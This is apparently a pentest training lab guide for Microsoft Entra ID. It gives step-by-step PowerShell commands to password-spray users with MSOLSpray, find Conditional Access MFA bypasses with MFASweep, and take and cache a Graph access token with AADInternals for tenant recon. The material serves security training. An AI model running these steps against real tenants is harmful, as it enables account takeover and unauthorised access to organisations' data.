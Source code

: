 ### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the Exercise files directory to the MSOLSpray directory and review the contents
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$HOME\Desktop\ExerciseFiles\Modules\03\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"

Get-Content .\users.txt
```

3. Run MSOLSpray
* Replace the SPRAY_PASSWORD_FROM_THE_LAB_INFO with the password from the LabXX-Info file.
```
Invoke-MSOLSpray -UserList .\users.txt -Password "SPRAY_PASSWORD_FROM_THE_LAB_INFO" -Verbose -OutFile .\sprayresults.txt
```
** Note the non-existent users and the users with MFA configured

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
Get-Content .\sprayresults.txt
```

5. Open the Entra ID portal at **`https://entra.microsoft.com/`** in an InPrivate or Incognito window. Sign in with one of the matched credentials from the sprayresults.txt file.
* You should now be able to access the Entra ID portal as the user (Identity → Users → All users). Also, you should be able to review the information of other users in the tenant! (This is the default behavior).



## Bypassing conditional MFA with MFA Sweep
* In this exercise, we will use MFA sweeep to identify options to bypass conditional access MFA.
* **NOTE**: Use Alexander's account for this exercise

1. In your pentest VM, open the PowerShell console, switch directories to your user's directory, and clone the MFASweep GitHub repository using the following commands:
```
cd C:\Users\$env:USERNAME\
git clone https://github.com/dafthack/MFASweep.git
```

2. Import the MFASweep PowerShell module using the following commands:
```
cd .\MFASweep\
Import-Module .\MFASweep.ps1
```

3. Run MFASweep against any user accounts that you have compromised using the following commands. You should see a success message for any accounts that allow Conditional Access policy bypasses:

```
Invoke-MFASweep -Username "USER_WITH_MFA" -Password "SPRAY_PASSWORD_FROM_THE_LAB_INFO"
```

4. When prompted to perform ADFS checks, enter **`Y`** and press **`Enter`**.

5. When prompted about multiple login attempts, enter **`Y`** and press **`Enter`**.

6. Notice that the result showed that single factor authentication could be used for the Microsoft Graph API. This means that the user account can be used to bypass Conditional Access policies.

7. Use AADInternals to obtain an access token for Microsoft Graph API using the following commands:
* The operation should be successful
```
Import-Module AADInternals

$username = "ALEXANDER'S_USERNAME"
$password = "SPRAY_PASSWORD_FROM_THE_LAB_INFO" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Get-AADIntAccessTokenForMSGraph -Credentials $cred -SaveToCache
```

8. View the cached token using the following command:
```
Get-AADIntCache
```

9. Run some recon commands:
```
Get-AADIntSubscriptions
Get-AADIntUsers | Select UserPrincipalName,ObjectId
```
